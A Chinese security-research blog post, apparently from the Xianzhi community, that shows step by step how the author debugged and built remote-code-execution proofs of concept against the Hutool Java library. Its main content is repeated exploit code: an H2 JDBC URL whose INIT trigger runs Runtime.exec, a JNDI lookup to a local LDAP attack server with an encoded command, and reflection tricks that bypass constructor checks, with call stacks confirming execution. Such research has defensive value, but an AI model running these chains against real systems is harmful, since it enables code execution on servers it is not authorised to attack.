# 如何从 0 在不断调试中挖掘一条新利用链-先知社区

> **来源**: https://xz.aliyun.com/news/17713  
> **文章ID**: 17713

---

# 如何从 0 在不断调试中挖掘一条新利用链

## 前言

在挖掘在 hutool 组件的漏洞的时候，尝试构造利用 POC 的时候并不是那么顺利，最后也是一步一步不断调试分析构造出了我们的 POC

### 失败的调用

起源在一次失败的调用

```
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import java.lang.reflect.Field;

public class Test {
    public static void main(String[] args) throws Exception {

        String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON
" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript
" +
                "java.lang.Runtime.getRuntime().exec('calc')
" +
                "$$
";
        Setting setting = new Setting();
        setting.set("url", url);
        PooledDSFactory pooledDSFactory= new PooledDSFactory(setting);
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("1",pooledDSFactory);

    }
    public static void setFieldValue(Object obj, String name, Object val) throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }
    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {
        Field f = clazz.getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }
}

```

运行时发现并不会去调用我们的对应的 getter 方法，之后便开始利用链的调试之旅，一步一步解决问题最后到打通利用链

### PooledDSFactory 到 RCE

对于利用链，一般我们是需要知道 sink 点的

#### sink 点简单分析

而 PooledDSFactory 作为我们的类的时候我们看看它的 sink 点

在于调用 PooledDSFactory 的 getDataSource 方法的时候

会调用到父类的 getDataSource

```
public synchronized DataSource getDataSource(String group) {
    if (group == null) {
        group = "";
    }

    DataSourceWrapper existedDataSource = (DataSourceWrapper)this.dsMap.get(group);
    if (existedDataSource != null) {
        return existedDataSource;
    } else {
        DataSourceWrapper ds = this.createDataSource(group);
        this.dsMap.put(group, ds);
        return ds;
    }
}
```

会调用到 createDataSource 方法



过程中会实例化 PooledDataSource 类



在实例化过程中会触发 jdbc 的连接





但是我们使用如下 POC 的时候发现并不能造成连接

```
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import java.lang.reflect.Field;

public class Test {
    public static void main(String[] args) throws Exception {

        String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON
" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript
" +
                "java.lang.Runtime.getRuntime().exec('calc')
" +
                "$$
";
        Setting setting = new Setting();
        setting.set("url", url);
        PooledDSFactory pooledDSFactory= new PooledDSFactory(setting);
        pooledDSFactory.getDataSource();
    }
    public static void setFieldValue(Object obj, String name, Object val) throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }
    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {
        Field f = clazz.getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }
}

```

#### 问题分析

开始我们的调试分析

经过不断的调试分析发现问题是出现在实例化 PooledDataSource 对象的时候



while 是不会进入的，会直接跳过

initialSize-- > 0 这是一个后置递减运算符与比较运算的组合：

initialSize-- 先使用当前值进行比较，然后再减 1

整个表达式相当于：检查 initialSize 是否大于 0，如果是则进入循环，然后 initialSize 减 1

因为一开始就没有大于 0，导致了我们不会进入循环直接结束实例化

作为 POC 编写的话，我们是需要去完成原因分析的，首先就是溯源

##### 变量溯源



```
public int getInitialSize() {
    return this.initialSize;
}
```

发现来源于我们的 DbConfig，而 DbConfig 的各种变量的赋值是在上一个 createDataSource 方法中



来源于 poolSetting 的 getInt 方法

发现默认就为 0

溯源完成后我们就尝试寻找能够修改值的地方了

在实例化的 PooledDataSource 地方，值来源于 config，如果我们反射修改这个 config，那么就可以修改其中的值了

##### 修改 DbConfig 失败

我们来到 DbConfig 这个类



发现它并没有继承反序列化的接口，那么我们就不能去直接反射修改了，因为就算修改了在反序列化过程中也不会自动去修改

所以现在的思路就是有没有能够在反序列化过程中能够实现对这个赋值的方法，而且其中参数我们可以控制，这个思路后面会去实现

##### 利用逻辑失败

因为在 createDataSource 方法中，initialSize 值默认会设置为 0

那么我们看看之后的逻辑可不可能去修改呢

一开始就看到这串代码了

```
for(int var10 = 0; var10 < var9; ++var10) {
    String key = var8[var10];
    String connValue = poolSetting.get(key);
    if (StrUtil.isNotBlank(connValue)) {
        dbConfig.addConnProps(key, connValue);
    }
}
```

发现这串代码的是有 add 逻辑的，想着能不能直接覆盖掉

进入 if 的条件是有 var10 < var9

而 var9 来源于

```
String[] var8 = KEY_CONN_PROPS;
int var9 = var8.length;
```



我们设置值

POC

```


import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import java.lang.reflect.Field;

public class Test {
    public static void main(String[] args) throws Exception {

        String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON
" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript
" +
                "java.lang.Runtime.getRuntime().exec('calc')
" +
                "$$
";
        Setting setting = new Setting();
        setting.set("url", url);
        setting.set("remarks", "1");
        setting.set("initialSize", "1");
        PooledDSFactory pooledDSFactory= new PooledDSFactory(setting);
        pooledDSFactory.getDataSource();
    }
    public static void setFieldValue(Object obj, String name, Object val) throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }
    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {
        Field f = clazz.getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }
}

```



获取我们的 key 然后 add，可以看到 size 是有我们的 initialSize

但是最后发现 key 只能是 `var8[var10]

也就是 key 只能是 KEY\_CONN\_PROPS 的之一，如果代码逻辑 key 直接是 var10 我们就能够这样去混淆加入我们的变量绕过了

##### 寻找被动修改 DbConfig 点

那我们只能使用上面说的逻辑了

首先需要知道 poolSetting.getInt 方法

发现这个方法并不是固定返回我们的 0，而且默认返回 0，如果还有其他值的话就不会返回 0

逻辑如下

```
getStr:49, AbsSetting (cn.hutool.setting)
getStr:37, AbsSetting (cn.hutool.setting)
getStr:22, AbsSetting (cn.hutool.setting)
getStr:29, OptNullBasicTypeGetter (cn.hutool.core.getter)
getInt:23, OptNullBasicTypeFromStringGetter (cn.hutool.core.getter)
createDataSource:37, PooledDSFactory (cn.hutool.db.ds.pooled)
createDataSource:122, AbstractDSFactory (cn.hutool.db.ds)
getDataSource:82, AbstractDSFactory (cn.hutool.db.ds)
getDataSource:62, DSFactory (cn.hutool.db.ds)
main:20, Test
```

```
public String getStr(String key, String group, String defaultValue) {
    String value = this.getByGroup(key, group);
    return (String)ObjectUtil.defaultIfNull(value, defaultValue);
}
```

可以看到在这里就会获取我们的 value，value 是通过 getByGroup 获取的

就是取出键的值

关键是在于我们的 defaultIfNull 方法

```
public static <T> T defaultIfNull(T object, T defaultValue) {
    return isNull(object) ? defaultValue : object;
}
```

如果我们的 value 不为空，那么就返回我们的 value

所以逻辑就是让 value 不为空

那我们就需要反射修改 poolSetting 属性中的一些值

```
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import java.lang.reflect.Field;

public class Test {
    public static void main(String[] args) throws Exception {

        String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON
" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript
" +
                "java.lang.Runtime.getRuntime().exec('calc')
" +
                "$$
";
        Setting setting = new Setting();
        setting.set("url", url);
        setting.set("initialSize", "1");
        PooledDSFactory pooledDSFactory= new PooledDSFactory(setting);
        setFieldValue(pooledDSFactory,"setting",setting);
        pooledDSFactory.getDataSource();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.setAccessible(true);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```

运行后成功弹出计算器



虽然有些不理解直接赋值和反射区别在哪里

但是弹出计算器了，看看调用栈

```
getConnection:208, DriverManager (java.sql)
<init>:48, PooledConnection (cn.hutool.db.ds.pooled)
newConnection:124, PooledDataSource (cn.hutool.db.ds.pooled)
<init>:85, PooledDataSource (cn.hutool.db.ds.pooled)
createDataSource:51, PooledDSFactory (cn.hutool.db.ds.pooled)
createDataSource:122, AbstractDSFactory (cn.hutool.db.ds)
getDataSource:82, AbstractDSFactory (cn.hutool.db.ds)
getDataSource:62, DSFactory (cn.hutool.db.ds)
main:20, Test
```

触发了 h2 的 rce

所以我们只需要能够接着调用 getter 方法的链子就 ok 了

### JndiDSFactory 利用

这个利用相对来说就比较简单了

看到 sink 点

```
protected DataSource createDataSource(String jdbcUrl, String driver, String user, String pass, Setting poolSetting) {
    String jndiName = poolSetting.getStr("jndi");
    if (StrUtil.isEmpty(jndiName)) {
        throw new DbRuntimeException("No setting name [jndi] for this group.");
    } else {
        return DbUtil.getJndiDs(jndiName);
    }
}
```

就是调用 getJndiDs 会直接触发 JDNI 连接

```
public static DataSource getJndiDs(String jndiName) {
    try {
        return (DataSource)(new InitialContext()).lookup(jndiName);
    } catch (NamingException var2) {
        throw new DbRuntimeException(var2);
    }
}
```

构造 payload

```


import cn.hutool.db.ds.jndi.JndiDSFactory;
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import java.lang.reflect.Field;

public class Test3 {
    public static void main(String[] args) throws Exception {

        Setting setting = new Setting();
        setting.set("jndi","ldap://127.0.0.1:1389/Basic/Command/Y2FsYw==");
        JndiDSFactory jndiDSFactory= new JndiDSFactory(setting);
        setFieldValue(jndiDSFactory,"setting",setting);
        jndiDSFactory.getDataSource();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.setAccessible(true);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```

运行后发现报错了



#### 解决 Assert.notNull 异常问题

我们调试分析发现是在实例化 JndiDSFactory 过程中报错

```
public JndiDSFactory(Setting setting) {
    super("JNDI DataSource", (Class)null, setting);
}
```

会调用到父类的方法

注意传入的 class 为 null



```
public static <T> T notNull(T object) throws IllegalArgumentException {
    return notNull(object, "[Assertion failed] - this argument is required; it must not be null");
}
```

如果为 null，直接抛出异常

如果我们直接实例化是避免不了这个问题的，想着直接反射实例化它，而且不能走类本身的构造函数

```
public static Object newInstanceWithOnlyConstructor(Class clazz,Object... params) throws Exception {
    Constructor[] constructors = clazz.getDeclaredConstructors();
    if(constructors.length > 1){
        throw new IllegalStateException("The number of construction methods is more than 1,can't use newInstanceWithOnlyConstructor");
    }
    Constructor constructor = constructors[0];
    constructor.setAccessible(true);
    return constructor.newInstance(params);
}
```

修改代码如下

```


import cn.hutool.db.ds.jndi.JndiDSFactory;
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import java.lang.reflect.Field;

public class Test3 {
    public static void main(String[] args) throws Exception {

        Setting setting = new Setting();
        setting.set("jndi","ldap://127.0.0.1:1389/Basic/Command/Y2FsYw==");
        JndiDSFactory jndiDSFactory=Reflections.newInstanceWithoutConstructor(JndiDSFactory.class);
        setFieldValue(jndiDSFactory,"setting",setting);
        jndiDSFactory.getDataSource();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.setAccessible(true);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```

再次运行发现发现报错变了，至少刚刚的问题是解决了



发现是空指针问题了

#### 解决 AbstractDSFactory 空指针



发现是在调用 getDataSource 过程中由于 dsMap 为空导致的，直接反射修改属性就好了



修改后的代码如下

```


import cn.hutool.core.map.SafeConcurrentHashMap;
import cn.hutool.db.ds.jndi.JndiDSFactory;
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import java.lang.reflect.Field;

public class Test3 {
    public static void main(String[] args) throws Exception {

        Setting setting = new Setting();
        setting.set("jndi","ldap://127.0.0.1:1389/Basic/Command/Y2FsYw==");
        JndiDSFactory jndiDSFactory=Reflections.newInstanceWithoutConstructor(JndiDSFactory.class);
        setFieldValue(jndiDSFactory,"setting",setting);
        setFieldValue(jndiDSFactory,"dsMap",new SafeConcurrentHashMap());
        jndiDSFactory.getDataSource();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.setAccessible(true);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```

#### 成功利用

可以看到上个问题解决了，但是报错又来了  


我们一样去修改，这个可能就是设置没有设置 jdbc 的 url 而已

```

import cn.hutool.core.map.SafeConcurrentHashMap;
import cn.hutool.db.ds.jndi.JndiDSFactory;
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import java.lang.reflect.Field;

public class Test3 {
    public static void main(String[] args) throws Exception {

        Setting setting = new Setting();
        setting.set("jndi","ldap://127.0.0.1:1389/Basic/Command/Y2FsYw==");
        setting.set("url","anyisok");
        JndiDSFactory jndiDSFactory=Reflections.newInstanceWithoutConstructor(JndiDSFactory.class);
        setFieldValue(jndiDSFactory,"setting",setting);
        setFieldValue(jndiDSFactory,"dsMap",new SafeConcurrentHashMap());
        jndiDSFactory.getDataSource();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.setAccessible(true);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```

这个 url 任何值都可以，我们的 sink 核心是在 JNDI的

```
getJndiDs:165, DbUtil (cn.hutool.db)
createDataSource:41, JndiDSFactory (cn.hutool.db.ds.jndi)
createDataSource:122, AbstractDSFactory (cn.hutool.db.ds)
getDataSource:82, AbstractDSFactory (cn.hutool.db.ds)
getDataSource:62, DSFactory (cn.hutool.db.ds)
main:19, Test3
```



运行后弹出计算器



### SimpleDSFactory

这个类也是原生不需要其他依赖的

但是发现 getter 方法并不能利用

调用到它的 createDataSource 方法

```
protected DataSource createDataSource(String jdbcUrl, String driver, String user, String pass, Setting poolSetting) {
    SimpleDataSource ds = new SimpleDataSource(jdbcUrl, user, pass, driver);
    ds.setConnProps(poolSetting.getProps(""));
    return ds;
}
```

会实例化 SimpleDataSource 对象

```
public SimpleDataSource(String url, String user, String pass, String driver) {
    this.init(url, user, pass, driver);
}
```

然后初始化一些参数

```
public void init(String url, String user, String pass, String driver) {
    this.driver = StrUtil.isNotBlank(driver) ? driver : DriverUtil.identifyDriver(url);

    try {
        Class.forName(this.driver);
    } catch (ClassNotFoundException var6) {
        throw new DbRuntimeException(var6, "Get jdbc driver [{}] error!", new Object[]{driver});
    }

    this.url = url;
    this.user = user;
    this.pass = pass;
}
```

但是整个过程中并没有触发 jdbc 的连接

导致无法利用

参考<https://unam4.github.io/>
